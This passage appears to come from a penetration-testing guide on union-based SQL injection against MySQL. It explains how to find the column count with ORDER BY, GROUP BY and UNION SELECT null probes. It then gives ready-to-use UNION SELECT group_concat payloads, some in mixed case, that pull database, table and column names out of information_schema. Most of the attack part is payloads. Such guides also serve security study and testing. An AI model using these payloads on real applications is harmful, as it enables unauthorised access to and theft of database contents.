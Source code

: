Also, if you have access to the output of the query, you could make it **print the version of the database**.

*A continuation we are going to discuss different methods to exploit different kinds of SQL Injection. We will use MySQL as example.*

#### Exploiting Union Based

##### Detecting number of columns

If you can see the output of the query this is the best way to exploit it.
First of all, wee need to find out the **number** of **columns** the **initial request** is returning. This is because **both queries must return the same number of columns**.
Two methods are typically used for this purpose:

##### Order/Group by

Keep incrementing the number until you get a False response. Even though GROUP BY and ORDER BY have different functionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

```
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

##### UNION SELECT

Select more and more null values until the query is correct:

```
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

*You should use `null`values as in some cases the type of the columns of both sides of the query must be the same and null is valid in every case.*

##### Extract database names, table names and column names

On the next examples we are going to retrieve the name of all the databases, the table name of a database, the column names of the table:

```
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```
